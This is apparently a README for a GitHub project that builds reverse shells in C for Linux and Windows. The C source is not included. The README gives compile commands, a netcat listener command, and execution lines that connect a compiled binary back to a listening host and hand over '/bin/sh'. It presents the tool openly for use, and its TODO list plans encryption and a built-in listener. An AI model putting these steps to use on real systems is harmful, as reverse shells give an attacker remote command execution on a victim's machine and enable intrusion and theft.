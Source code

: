 # Concept

Making Reverse Shells in C for both OS's (Windows & Linux)


## Linux
### Compiling & Usage

```bash
# Compile it
gcc -o linux_rev_shell.elf linux_rev_shell.c

## Another system:
## set up a listener 
nc -nvlp -k 1234

## Set up env variables for easy execution in terminal
# Execute it, passing the env variables.
RP="1234" && RH="127.0.0.1" && BIN="/bin/sh"  && ./linux_rev_shell.elf $RP $RH $BIN

```

## Windows
### Compiling & Usage

```bash
# Compile it
i686-w64-mingw32-gcc -o windows_rev_shell.exe windows_rev_shell.c -lws2_32

## Another system:
## set up a listener 
nc -nvlp -k 1234

## Set up env variables for easy execution in terminal
# Execute it, passing the env variables.
windows_rev_shell.exe $IP $RP $BIN
```

## TODO for both OS
- [ ] debug (print outs, etc)
- [ ] more checks
- [ ] encryption
- [ ] LISTEN | CLIENT for both, so no need for NC and stuff.
